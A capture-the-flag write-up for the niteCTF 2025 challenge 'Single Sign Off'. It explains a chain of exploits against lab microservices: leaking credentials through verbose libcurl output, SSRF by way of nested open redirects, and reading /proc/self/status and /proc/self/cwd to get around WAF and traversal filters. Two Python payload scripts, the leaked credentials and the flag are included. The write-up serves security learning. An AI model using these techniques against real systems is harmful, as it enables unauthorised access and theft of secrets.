







# niteCTF 2025 - Single Sign Off Write-up 



This challenge required exploiting a chain of vulnerabilities across three microservices: an SSO provider, a Document Portal using a custom C binary, and an internal Vault. The path to the flag involved leaking credentials via verbose cURL output, exploiting an SSRF via Open Redirects, and leveraging Linux filesystem internals (`/proc`) to bypass multiple WAF layers.

### Step 1: Credential Leak via Verbose cURL

The entry point was the "Document Portal". The backend utilized a C binary named `fetcher` to make HTTP requests. Analyzing the provided source code (`fetcher.c`), I found that `libcurl` was initialized with `CURLOPT_VERBOSE` enabled, and it used a local `.netrc` file for authentication.

```c
// From fetcher.c
curl_easy_setopt(curl, CURLOPT_NETRC, CURL_NETRC_OPTIONAL);
curl_easy_setopt(curl, CURLOPT_NETRC_FILE, "/root/.netrc");
curl_easy_setopt(curl, CURLOPT_VERBOSE, 1L); // <--- The leak source
```

I requested the internal SSO URL `http://nite-sso/` through the portal. The fetcher automatically authenticated using the stored credentials. Due to the verbose mode, the credentials was leaked in the debug output.



I successfully extracted the credentials: `qwertyuiop:SgYJBS9C1b1ohbazlE`.



### Step 2: PID Extraction via SSRF

The flag was stored in the `nite-vault` service. However, the Document Portal had a WAF blocking the string "nite-vault", and the Vault blocked path traversal (`../`). To find the flag's filename, which relied on the process ID (PID) for its random seed, I first needed to read `/proc/self/status`.

I bypassed the WAF using an **Open Redirect** vulnerability in `nite-sso`. I constructed a chain of 6 redirects. Analyzing the `fetcher` binary, I discovered logic that, upon hitting the redirect limit, would attempt the final request *without* security checks.

**Payload (`payload_pid.py`):**

```python
import urllib.parse

SSO_USER = "NEMO1337" 
SSO_PASS = "NEMO1337"

# Credentials found in Step 1
NITE_USER = "qwertyuiop"
NITE_PASS = "SgYJBS9C1b1ohbazlE"

hostname = "nite-vault"
encoded_hostname = "".join([f"%{c:02x}" for c in hostname.encode()])

# Target: Read process status to find PID
target_url = f"http://{encoded_hostname}/view?file=/proc/self/status&username={NITE_USER}&password={NITE_PASS}#"

sso_redirect_base = f"http://nite-sso/doLogin?username={SSO_USER}&password={SSO_PASS}&redirect_url="
pid_payload = target_url
for _ in range(6):
  pid_payload = sso_redirect_base + urllib.parse.quote_plus(pid_payload)

print("URL to receive PID")
print(pid_payload)
```
Running the script provided the correct URL to get the PID.



Sending this payload, I received the status file from the vault service, revealing **PID: 21**.



### Step 3: WAF Bypass via /proc/self/cwd

With the PID (21), I could generate the filename using the logic found in `app.py`. However, fetching the flag was tricky:
1.  Absolute path `/app/nite-vault/...` failed because it contained "nite-vault" (Blocked by Portal WAF).
2.  Relative path `../secrets/...` failed because `nite-vault` sanitized `../`.

**The Solution:**
I utilized the Linux `/proc` filesystem. `/proc/self/cwd` is a symbolic link to the current working directory. By requesting `/proc/self/cwd/secrets/<filename>`, I avoided using the forbidden string "nite-vault" AND avoided using `../`, effectively bypassing both protections.

**Payload (`payload_final.py`):**

```python
import urllib.parse
import hashlib
import random

PID = 21

SSO_USER = "NEMO1337"
SSO_PASS = "NEMO1337"

# Recreate filename generation logic
uid, gid = 0, 0
seed = int(f"{PID}{uid}{gid}")
random.seed(seed)
random_num = random.randint(100000, 999999)
hash_part = hashlib.sha256(str(random_num).encode()).hexdigest()[:16]
secret_filename = f"{hash_part}.txt"
print(f"[+] File name for PID={PID}: {secret_filename}")

NITE_USER = "qwertyuiop"
NITE_PASS = "SgYJBS9C1b1ohbazlE"

hostname = "nite-vault"
encoded_hostname = "".join([f"%{c:02x}" for c in hostname.encode()])

# The Golden Path: Using /proc/self/cwd to bypass both WAF and Input Validation
path_via_procfs = f"/proc/self/cwd/secrets/{secret_filename}"

target_url = f"http://{encoded_hostname}/view?file={path_via_procfs}&username={NITE_USER}&password={NITE_PASS}#"

sso_redirect_base = f"http://nite-sso/doLogin?username={SSO_USER}&password={SSO_PASS}&redirect_url="
final_payload = target_url
for _ in range(6):
  final_payload = sso_redirect_base + urllib.parse.quote_plus(final_payload)

print("\nURL TO GET THE FLAG")
print(final_payload)
```

Running the script provided the correct filename and the final bypass URL.



### Step 4: Flag Capture

I sent the generated URL to the Document Portal. This successfully bypassed all protections and retrieved the content of the secret file.



**Flag:** `nite{r3dir3ct_l3ak_r3p3at}`
